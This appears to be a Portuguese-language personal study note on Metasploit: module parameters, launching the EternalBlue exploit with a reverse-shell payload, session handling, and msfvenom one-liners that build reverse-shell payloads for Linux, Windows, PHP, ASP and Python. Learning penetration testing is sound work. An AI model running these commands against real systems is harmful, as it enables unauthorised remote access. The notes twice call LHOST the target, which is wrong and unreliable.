 ```yaml
---
tags:
  - EXPLOITATION
---
```

# Parâmetros Metasploit
- **RHOSTS**: "*Host remoto*", o endereço IP do sistema de destino. É possível definir um único endereço IP ou um intervalo de rede. Isso dará suporte à notação CIDR (Classless Inter-Domain Routing) (/24, /16, etc.) ou a um intervalo de rede (10.10.10.x - 10.10.10.y). Você também pode usar um arquivo em que os alvos são listados, um alvo por linha, usando file:/path/of/the/target_file.txt, como você pode ver abaixo.
- **RPORT**: "*Porta remota*", a porta no sistema de destino em que o aplicativo vulnerável está sendo executado.
- **PAYLOAD**: O *payload* que você usará com a exploração.
- **LHOST**: "*Localhost*", o endereço IP da máquina atacante (seu AttackBox ou Kali Linux).
- **LPORT**: "*Local port*" (porta local), a porta que você usará para que o shell reverso se conecte novamente. Essa é uma porta em seu computador de ataque e você pode defini-la como qualquer porta que não seja usada por nenhum outro aplicativo.
- **SESSÃO**: cada conexão estabelecida com o sistema de destino usando o Metasploit terá um *ID de sessão*. Você usará isso com módulos de pós-exploração que se conectarão ao sistema de destino usando uma conexão existente.
# Scan e Exploit
1. Você pode pesquisar exploits usando o comando `search`, obter mais informações sobre o exploit usando o comando info e iniciar o exploit usando exploit.  O comando `show payloads` lista outros comandos que podem ser usados com esse exploit específico.
   
```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads

msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 2
#payload => generic/shell_reverse_tcp

msf6 exploit(windows/smb/ms17_010_eternalblue) > show options 

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

```

2. Settar o LHOST, que será nosso **alvo** e iniciar o exploit. Nesse exemplo foi usado o *eternalblue* que tem como alvo sistemas *Windows 7*
```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.10.186.44
lhost => 10.10.186.44
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit 
```

#### Sessions
Digitando CTRL+Z, podemos deixar a sessão em segundo plano. E digitando `sessions -i` podemos acessar a session anteriormente estabelecida
```shell
C:\Windows\system32>^Z
Background session 1? [y/N]  y

msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
###############################################################
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 1
[*] Starting interaction with 1...

C:\Windows\system32> #sessão reestabelecida
```

# Msfvenon
O Msfvenom permite a criação de payloads em muitos formatos diferentes (PHP, exe, dll, elf etc.) e para muitos sistemas-alvo diferentes (Apple, Windows, Android, Linux etc.).

```shell
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php

msfconsole

msf6 > use exploit/multi/handler 
```

Como sempre, será necessário settar o `LHOST` e a `LPORT` para nosso alvo. Por fim, rodar o o exploit

```shell
msf5 exploit(multi/handler) > set lhost 10.0.2.19
lhost => 10.0.2.19

msf6 exploit(multi/handler) > set lport 7777
lport => 7777

msf6 exploit(multi/handler) > run
```

# Outros Payloads
Com base na configuração do sistema de destino (sistema operacional, servidor da Web instalado, interpretador instalado etc.), o msfvenom pode ser usado para criar payloads em quase todos os formatos. Abaixo estão alguns exemplos que você usará com frequência:

> Em todos esses exemplos, *LHOST* será o endereço **IP de sua máquina atacante** e *LPORT* será a **porta na qual seu manipulador escutará**.
#### Formato executável e vinculável do Linux (elf)
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`

O formato .elf é comparável ao formato .exe do Windows. Esses são arquivos executáveis para Linux. No entanto, talvez você ainda precise garantir que eles tenham permissões de execução no computador de destino. Por exemplo, depois de ter o arquivo shell.elf no computador de destino, use o comando chmod +x shell.elf para conceder permissões de execução. Uma vez feito isso, você pode executar esse arquivo digitando ./shell.elf na linha de comando do computador de destino.
#### Windows
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`
#### PHP
`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`
#### ASP
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`
#### Python
`msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`
